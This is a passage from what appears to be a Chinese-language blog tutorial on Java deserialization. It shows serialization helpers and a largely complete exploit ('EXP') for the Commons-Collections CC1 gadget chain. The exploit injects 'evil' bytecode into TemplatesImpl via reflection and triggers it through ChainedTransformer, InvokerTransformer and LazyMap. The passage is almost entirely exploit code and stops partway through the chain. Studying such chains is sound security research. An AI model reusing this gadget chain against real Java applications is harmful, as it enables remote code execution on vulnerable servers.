 ```
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
```

![img](https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/TemplatesImplCC1Done.png)

- 然后是 Yso 正版链子的 TemplatesImpl 的实现方式。

EXP 如下

JAVA

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Proxy;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
// CC1 Yso 的正版链子，用 TemplatesImpl 实现 EXPpublic class CC1YsoTemplatesEXP {  
    public static void main(String[] args) throws Exception {  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates, "Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates, codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 //     templates.newTransformer();  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(templates), // 构造 setValue 的可控参数  
 new InvokerTransformer("newTransformer", null, null)  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);  
  
```